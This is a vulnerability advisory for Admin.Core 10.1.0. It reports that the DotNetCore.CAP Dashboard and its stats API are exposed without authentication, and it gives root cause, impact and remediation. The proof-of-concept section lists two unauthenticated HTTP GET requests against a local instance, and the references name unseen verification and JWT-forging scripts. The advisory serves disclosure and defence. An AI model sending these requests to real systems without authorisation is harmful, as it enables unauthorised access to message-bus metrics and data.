

# Admin.Core — Unauthenticated CAP Dashboard access (AC-VULN-004)

| Field | Value |
|-------|-------|
| Vendor | zhontai |
| Product | Admin.Core (中台Admin) |
| Version | 10.1.0 |
| Type | Missing Authentication |
| CWE | CWE-306 / CWE-200 |
| Authentication | None |
| Severity | High |

## Summary

`Program.cs` calls `config.UseDashboard()` without auth. Dashboard HTML and `/cap/api/stats` are anonymously reachable.

## Root cause

DotNetCore.CAP Dashboard mounted without authentication options.

## Exploit / reproduction

Open without auth:

- [http://127.0.0.1:18010/cap/index.html](http://127.0.0.1:18010/cap/index.html)
- [http://127.0.0.1:18010/cap/api/stats](http://127.0.0.1:18010/cap/api/stats)


## PoC (Yakit)

```http
GET /cap/index.html HTTP/1.1
Host: 127.0.0.1:18010
Connection: close

---
GET /cap/api/stats HTTP/1.1
Host: 127.0.0.1:18010
Connection: close
```

Expected: HTTP 200 CAP Dashboard; stats JSON without login

## Screenshots



## Impact

Message-bus metrics and operational disclosure; potential message inspection.

## Remediation

Enable CAP Dashboard authentication or bind to internal network only; disable in production.

## References

- Local report: `../POC_VERIFICATION_REPORT.md`
- Scripts: `poc_verify/admincore_poc_verify.py`, `admincore_jwt_forge.py`
- Upstream: https://github.com/zhontai/Admin.Core
